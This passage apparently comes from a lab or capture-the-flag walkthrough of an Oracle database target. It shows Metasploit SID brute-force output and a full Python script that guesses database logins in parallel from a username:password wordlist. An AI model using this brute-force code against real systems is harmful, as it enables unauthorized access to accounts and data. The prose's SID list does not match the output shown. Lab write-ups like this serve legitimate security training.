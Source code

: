    [*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
    [*] 10.10.10.82:1521 - Done with brute force...
    [*] Auxiliary module execution completed
    

So at this point we have four potential SIDs: ‘XE’, ‘XEXDB’, ‘PLSExtProc’, and
‘CLRExtProc’.

#### 3 - Guess / bruteforce user and pass

This was more challenging. I tried the odat and metasploit modules, but didn’t
get any hits. What I didn’t know at the time was that that’s because the odat
password list is in all caps.

So I wrote a brute force script in python, using threads, can go pretty quick:

    
    
    #!/usr/bin/env python
    
    import cx_Oracle
    import sys
    from multiprocessing import Pool
    
    MAX_PROC = 50
    host = "10.10.10.82"
    sid = "XE"
    
    def usage():
        print("{} [ip] [wordlist]".format(sys.argv[0]))
        print("  wordlist should be of the format [username]:[password]")
        sys.exit(1)
    
    def scan(userpass):
        u, p = userpass.split(':')[:2]
        try:
            conn = cx_Oracle.connect('{user}/{pass_}@{ip}/{sid}'.format(user=u, pass_=p, ip=host, sid=sid))
            return u, p, True
        except cx_Oracle.DatabaseError:
            return u, p, False
    
    
    def main(host, userpassfile, nprocs=MAX_PROC):
        with open(userpassfile, 'r') as f:
           userpass = f.read().rstrip().replace('\r','').split('\n')
    
        pool = Pool(processes=nprocs)
    
        for username, pass_, status in pool.imap_unordered(scan, [up for up in userpass]):
            if status:
                print("Found {} / {}\n\n".format(username, pass_))
            else:
                sys.stdout.write("\r {}/{}                               ".format(username, pass_))
    